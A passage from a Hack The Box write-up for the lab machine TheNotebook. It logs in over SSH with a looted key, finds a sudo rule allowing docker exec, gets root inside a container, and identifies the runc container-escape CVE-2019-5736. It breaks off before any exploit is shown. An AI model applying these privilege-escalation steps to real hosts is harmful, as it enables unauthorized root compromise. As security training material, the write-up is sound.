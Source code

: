 ```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/loot]
└─$ ssh noah@10.10.10.230 -i noah.key 
...
noah@thenotebook:~$ id
uid=1000(noah) gid=1000(noah) groups=1000(noah)
```

## Privilege Escalation

Enumerated sudo capabilities for noah:

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

Connected to the docker container and discovered that high privileges was provided:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@7b2fd74847ce:/opt/webapp# id
uid=0(root) gid=0(root) groups=0(root)
```

Discovered that runc was available:

```bash
...
[+] Checking if runc is available
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation                            
runc was found in /usr/sbin/runc, you may be able to escalate privileges with it
...
```

Googling around for Docker privilege escalation techniques, an interesting [article from HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#runc-exploit-cve-2019-5736) was found, talking about a `Runc exploit` (CVE-2019-5736) that allows elevation of privileges.

>[!bug]
>runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe.
> 

Controlling the software versions of the target machine it was discovered that the box was **vulnerable to that CVE**:
